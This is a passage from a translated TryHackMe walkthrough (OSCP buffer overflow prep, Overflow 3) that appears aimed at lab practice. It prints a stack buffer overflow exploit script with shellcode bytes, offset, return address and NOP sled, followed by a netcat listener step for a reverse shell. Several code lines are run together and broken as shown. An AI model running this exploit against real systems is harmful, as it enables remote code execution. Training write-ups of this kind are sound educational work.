buf += b"\x80\x88\xe8\x02\xf1\x81\x2e\x56\xa1\xb9\x87\xd7\x2a\x39\x27"
buf += b"\x02\xfc\x69\x87\xfd\xbd\xd9\x67\xae\x55\x33\x68\x91\x46\x3c"
buf += b"\xa2\xba\xed\xc7\x25\x05\x59\xec\xfc\xed\x98\xf2\xef\xb1\x15"
buf += b"\x14\x65\x5a\x70\x8f\x12\xc3\xd9\x5b\x82\x0c\xf4\x26\x84\x87"
buf += b"\xfb\xd7\x4b\x60\x71\xcb\x3c\x80\xcc\xb1\xeb\x9f\xfa\xdd\x70"
buf += b"\x0d\x61\x1d\xfe\x2e\x3e\x4a\x57\x80\x37\x1e\x45\xbb\xe1\x3c"
buf += b"\x94\x5d\xc9\x84\x43\x9e\xd4\x05\x01\x9a\xf2\x15\xdf\x23\xbf"
buf += b"\x41\x8f\x75\x69\x3f\x69\x2c\xdb\xe9\x23\x83\xb5\x7d\xb5\xef"
buf += b"\x05\xfb\xba\x25\xf0\xe3\x0b\x90\x45\x1c\xa3\x74\x42\x65\xd9"
buf += b"\xe4\xad\xbc\x59\x04\x4c\x14\x94\xad\xc9\xfd\x15\xb0\xe9\x28"
buf += b"\x59\xcd\x69\xd8\x22\x2a\x71\xa9\x27\x76\x35\x42\x5a\xe7\xd0"
buf += b"\x64\xc9\x08\xf1\x64\xed\xf6\xfa"
prefix = "OVERFLOW3 "
offset = 1274
overflow = "A" * offset
retn = "\x03\x12\x50\x62"
padding = "\x90" * 16
payload = bufpostfix = ""buffer = prefix + overflow + retn + padding + payload + postfixs = socket.socket(socket.AF_INET, socket.SOCK_STREAM)try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(buffer + "\r\n")
  print("Done!")
except:
  print("Could not connect.")
```

用 netcat 启动一个监听器


再次启动易受攻击的应用程序。执行 exploit.py 现在回头看 netcat。



你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)


如需更多演练，请在出发前继续关注…
…

**点击此处加入电报**
[https://t.me/tryhackme_writeups](https://t.me/tryhackme_writeups)

访问我的其他演练:-

[](https://shamsher-khan-404.medium.com/tryhackme-oscp-buffer-overflow-prep-overflow-1-19e000482f27) [## TryHackMe: OSCP 缓冲区溢出准备(溢出 1)

### Shamsher khan 练习基于堆栈的缓冲区溢出！为了 OSCP

shamsher-khan-404.medium.com](https://shamsher-khan-404.medium.com/tryhackme-oscp-buffer-overflow-prep-overflow-1-19e000482f27) [](https://shamsher-khan-404.medium.com/tryhackme-oscp-buffer-overflow-prep-overflow-2-57c22b51a91f) [## TryHackMe: OSCP 缓冲区溢出准备(溢出 2)

### Shamsher khan 练习基于堆栈的缓冲区溢出！为了 OSCP

shamsher-khan-404.medium.com](https://shamsher-khan-404.medium.com/tryhackme-oscp-buffer-overflow-prep-overflow-2-57c22b51a91f) [](https://shamsher-khan-404.medium.com/stack-based-buffer-overflow-practical-for-windows-vulnserver-8d2be7321af5) [## 基于堆栈的缓冲区溢出实用程序(Vulnserver)

### Shamsher Khan 利用 TRUN 命令攻击 vulnserver 缓冲区溢出

shamsher-khan-404.medium.com](https://shamsher-khan-404.medium.com/stack-based-buffer-overflow-practical-for-windows-vulnserver-8d2be7321af5) 

感谢您花时间阅读我的演练。
如果你觉得有用，请点击👏按钮👏(高达 40 倍)并分享
它来帮助其他有类似兴趣的人！+随时欢迎反馈！